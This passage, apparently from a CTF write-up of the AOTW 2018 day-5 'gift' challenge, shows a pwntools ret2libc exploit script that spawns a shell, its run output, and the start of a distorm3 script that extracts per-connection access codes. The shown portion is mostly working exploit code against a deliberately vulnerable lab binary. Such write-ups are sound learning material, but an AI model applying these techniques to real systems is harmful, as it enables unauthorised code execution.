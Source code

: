 ```python
% cat exploit_v3.py
[...]
## second shellcode

offset_system = -0x24d40
offset_exit   = -0x31090
offset_binsh  = 0xfd548

code = "A"*offset_eip
code += p32(addr + offset_system)
code += p32(addr + offset_exit)
code += p32(addr + offset_binsh)


io.sendline(code)
io.interactive()
```

```
% ./exploit_v3.py
[*] '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift': pid 13167
[+] Starting local process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift': pid 13169
[ACCESS GRANTED]
[XMAS SECURITY PROTOCOL ACTIVATED] - Enter new keycode: 
address of puts: 0xf75b9880
f\x84\x0 \x9dX�!W�
[ACCESS GRANTED]
[XMAS SECURITY PROTOCOL ACTIVATED] - Enter new keycode: 
[*] Switching to interactive mode
$ id
uid=1000(m) gid=1000(m) groups=1000(m),4(adm)
$ pwd
/home/m/d5
```

## Putting it all together

Since the binary changes with each new connection, the final part was to put everything together.  
Most of the work is already done for the remote shell, but we need to extract the codes.  
  
for this i used distorm3, probably in the most horrible possible way, but it works...  


```python
% cat exploit_v4.py 
#!/usr/bin/python

import distorm3

def get_codes(binary):
    ''' parse binary to extract access codes
    '''
    codes = []
    disasm = {}

    # disassemble everything into memory... yuck
    iterable = distorm3.DecodeGenerator(0x0, binary, distorm3.Decode32Bits)
```